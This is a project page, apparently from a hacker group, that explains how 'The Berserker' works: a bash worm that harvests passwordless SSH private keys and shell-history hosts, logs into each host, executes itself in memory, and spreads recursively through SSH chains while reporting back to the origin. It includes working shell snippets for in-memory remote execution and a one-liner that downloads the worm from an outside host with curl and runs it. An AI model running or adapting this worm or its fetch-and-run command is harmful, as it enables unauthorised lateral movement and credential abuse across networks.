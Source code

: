 ```yaml
---
layout: default
title: Berserker - how it works
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

Random notes on how [The Berserker](../) works.

### Executive Summary
[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

### General
The Berserker looks for any passwordless private ssh-key in ```~/.ssh``` and then gathers information from the User's shell history (```~/.bash_history```, ```.zsh_history``` and ```~/.history```) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User ```alice``` starts The Berserker on host ```Earth``` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that ```alice``` frequently connects to ```Mars``` (as alice) and ```Jupiter``` (as root). The Berserker first connects to ```Mars``` and executes itself on ```Mars```. Let's assume The Berserker finds no further ssh-keys on ```Mars``` and so it will not spread beyond ```Mars```. Next it connects from ```Earth``` to ```Jupiter```. It's a root login to ```Jupiter``` and The Berserker finds many ssh-keys from various users. One such user is ```bob``` who frequently connects to ```Uranus``` and from there to ```Pluto```. Ultimately The Berserker will get to ```Pluto``` via a long ssh chain from ```Earth```->```Jupiter```->```Uranus```->```Pluto```.

At this point the educated reader will realise that The Berserker is *deep penetrating* ```Uranus```, e.g. ```Uranus``` gets owned even if firewalled or not being accessible from the Internet (but accessible from ```Jupiter```).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to ```Earth``` (the *origin* where The Berserker started).

### Bash In-Memory execution
Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named ```e.sh```.

1. Slurp the content into the variable ```$S``` after converting all ```'``` to ```'"'"'```. That's a bit freaky but hold your beer.

1. I use the hex notation (```\x27```) of ```'``` here or otherwise it would look rather complicated (```sed``` needs the ```'``` escaped so it is double-escaping time): ```S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"```. Most readers would commit suicide at this point. This is just to escape ```'``` correctly so that it can be passed to ```ssh``` as a command via a variable (```SCRIPT='$S'```) without interfering with the ```'``` around the ```$S```.

1. The long string ```export SCRIPT='$S'; bash -c \"\$SCRIPT\"``` is passed as a command to ```ssh``` to execute on the remote host. Note that the ```$``` in ```\"\$SCRIPT\"``` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute ```$SCRIPT```. This is only needed because The Berserker needs to access the source of its own script (now stored in ```$SCRIPT``` to spread to further hosts). Otherwise ```bash -c '$S'``` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with ```dd``` into a remote bash variable and executing the string from memory is a thing....).

### Bash Command line parsing

There is no efficient way to convert a command line string from ```~/.bash_history``` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records ```ls foo\ bar``` rather than what it actually executes (```exec("ls", "foo bar")```; note the missing ```\```). This is a problem if there are history entries containing bash variables or escape sequences like ```$HOME``` or ```\ ``` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is ```exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")``` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program ```xargs``` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used ```xargs``` to call ```bash -c``` and output each command line argument in a separate line and then convert this into a bash array:
```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable ```line``` now contains
```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double ```eval eval``` is needed. The first one convert the ```${#}``` to the integer number of the arguments passed to the bash by ```xargs``` and the second ```eval``` resolves the ```~/``` to the absolute directory name.

That format can now easily be split into an array like so:
```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```
 * Note how the *string* ```MyArray``` is passed as a function parameter (followed by the ssh command). Inside the function we use ```eval``` on that string to 'turn' the string-name (```MyArray```) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

### Bash stderr and $? catching

The Berserker needs to check the error output of ```ssh``` _and_ also needs the exit-code of ```ssh``` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:
```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```
* The ```echo 1>&2 "Hello-STDERR";``` generates some test output to STDERR.
* The ```exit 123;``` is some test exit code (123).

The output is ```ret=123, err=Hello-STDERR```.

### Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to ```Earth``` (the *origin*). A simple protocol is used to pass the information from the farthest ```ssh``` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above ```Pluto``` would pass the message back to ```Uranus```, ```Uranus``` back to ```Jupitor```, ... to ```Mars```, ... to ```Earth```. All protocol messages are then dispatched at the *origin* in ```msg_dispatch()```. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with ```BS_DEBUG_IS_SLAVE=1```:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:
```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

### If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

### Contact

{% include contact-details.md %}
